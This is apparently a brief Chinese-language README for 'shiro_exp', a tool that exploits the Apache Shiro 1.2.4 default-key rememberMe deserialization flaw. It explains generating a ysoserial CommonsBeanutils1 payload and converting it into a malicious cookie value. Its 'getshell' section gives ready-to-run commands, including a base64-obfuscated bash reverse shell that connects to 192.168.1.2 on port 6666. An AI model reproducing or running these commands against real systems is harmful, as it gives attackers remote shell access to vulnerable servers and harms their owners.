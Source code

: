 # shiro_exp
目前支持java环境：1.8 11
shiro&lt;=1.2.4默认密钥加密exp，利用yeoserial工具生成反序列化payload，通过shiro_exp生成rememberme字段值，构造数据包实施攻击

# getshell
java -jar ysoserial-all.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
java -jar shiro_exp >./getshell.txt
